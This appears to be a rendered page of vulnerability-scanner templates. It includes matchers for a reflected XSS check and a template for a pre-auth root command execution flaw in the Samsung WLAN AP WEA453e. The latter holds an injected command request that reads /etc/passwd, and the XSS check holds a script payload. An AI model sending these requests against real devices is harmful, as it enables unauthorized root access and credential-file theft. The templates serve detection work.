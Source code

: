 ### Matchers

**Type - word**

- words
  1. /tmp/www/\<script>alert(document.domain)\</script>
- part - body

**Type - status**

- status
  1. 404

**Type - word**

- words
  1. text/html
- part - header

---

# Samsung WLAN AP WEA453e - Remote Code Execution

## Description

- Samsung WLAN AP WEA453e is vulnerable to a pre-auth root remote command execution vulnerability, which means an attacker could run code as root remotely without logging in.
- severity - critical
- tags - xss,samsung,rce

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/(download)/tmp/poc.txt
  - command1=shell%3Acat /etc/passwd|dd of=/tmp/poc.txt

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
  2. bin:.\*:1:1
- part - body

**Type - status**

- status
  1. 200

---